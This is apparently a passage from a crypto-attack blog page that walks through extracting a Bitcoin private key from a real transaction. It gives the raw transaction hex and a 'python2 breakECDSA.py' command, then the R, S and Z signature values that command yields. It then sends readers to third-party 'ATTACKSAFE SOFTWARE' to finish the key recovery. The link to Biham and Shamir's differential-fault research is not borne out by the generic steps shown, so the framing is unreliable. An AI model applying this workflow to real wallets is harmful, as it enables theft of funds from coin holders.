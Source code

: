 

<pre class="wp-block-code"><code>RawTX = 0100000001a60ae2965c16c0a72bb764ec4f6f0dc6acfd3af3f49a73c06ae48ddfe4a7b76b020000006a473044022015e3f8b110a2baf09ddcce139644888bda303cd4d0a37c872e5faceb57abff0102202d2ca770322bfad7a32ae2568869512f71b8c40a561a7109a54f2799953342e3012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff019e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000
</code></pre>



<h2>Now we need to get all R, S, Z values ​​from all vulnerable transactions</h2>



<p>Let’s use the breakECDSA.py script</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001a60ae2965c16c0a72bb764ec4f6f0dc6acfd3af3f49a73c06ae48ddfe4a7b76b020000006a473044022015e3f8b110a2baf09ddcce139644888bda303cd4d0a37c872e5faceb57abff0102202d2ca770322bfad7a32ae2568869512f71b8c40a561a7109a54f2799953342e3012102ae4a7601c546fef42deb70516d41645dc58613689754936efdd4850e186d8320ffffffff019e020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<figure class="wp-block-image"><img decoding="async" src="./We implement WhiteBox Attack on Bitcoin with differential errors according to the research scheme of Eli Biham and Adi Shamir to extract the secret key - CRYPTO DEEP TECH_files/image-14-1024x281.png" alt="We implement WhiteBox Attack on Bitcoin with differential errors according to the research scheme of Eli Biham and Adi Shamir to extract the secret key" class="wp-image-1581"></figure>



<pre class="wp-block-code"><code>R = 0x15e3f8b110a2baf09ddcce139644888bda303cd4d0a37c872e5faceb57abff01
S = 0x2d2ca770322bfad7a32ae2568869512f71b8c40a561a7109a54f2799953342e3
Z = 0x793c00bdb7c96e19cb2670f3aec5369558b64f0e12645af070d94c2fc06db6ed</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<p><strong>To implement the attack and get the secret key, we will use the&nbsp;</strong><strong><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener">“ATTACKSAFE SOFTWARE” software</a></strong></p>


<div class="wp-block-image">
<figure class="aligncenter"><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener"><img decoding="async" src="./We implement WhiteBox Attack on Bitcoin with differential errors according to the research scheme of Eli Biham and Adi Shamir to extract the secret key - CRYPTO DEEP TECH_files/image-14.png" alt="We implement WhiteBox Attack on Bitcoin with differential errors according to the research scheme of Eli Biham and Adi Shamir to extract the secret key" class="wp-image-705"></a><figcaption class="wp-element-caption"><strong><code>www.attacksafe.ru/software</code></strong></figcaption></figure></div>

